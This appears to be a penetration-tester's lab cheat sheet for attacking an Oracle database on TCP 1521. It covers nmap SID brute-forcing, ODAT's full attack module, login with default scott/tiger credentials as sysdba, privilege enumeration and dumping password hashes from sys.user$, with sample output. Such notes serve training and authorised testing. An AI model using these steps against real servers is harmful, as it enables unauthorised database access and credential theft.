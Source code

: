 ```yaml
---
title: "Oracle Database Server"
date: 2025-08-23
tags: [orcl, sqlplus, odat, service]
port: [tcp, 1521]

---
```


# Oracle Database Server

## Enumeration

*Common Commands:*

`sudo nmap -p1521 -sV 10.129.204.235 --open`

*SSID Brute Force:*

`$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

*ODAT:*

$ `./odat.py all -s 10.129.204.235`

### SQLplus:

`$ sqlplus scott/tiger@10.129.204.235/XE`

>If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

`$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

*Example:*
```bash
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE`

SQL> select * from user_role_privs;
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

*Oracle RDBMS - Database Enumeration*

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```


*Oracle RDBMS - Extract Password Hashes:*

```bash
SQL> select name, password from sys.user$;
NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```
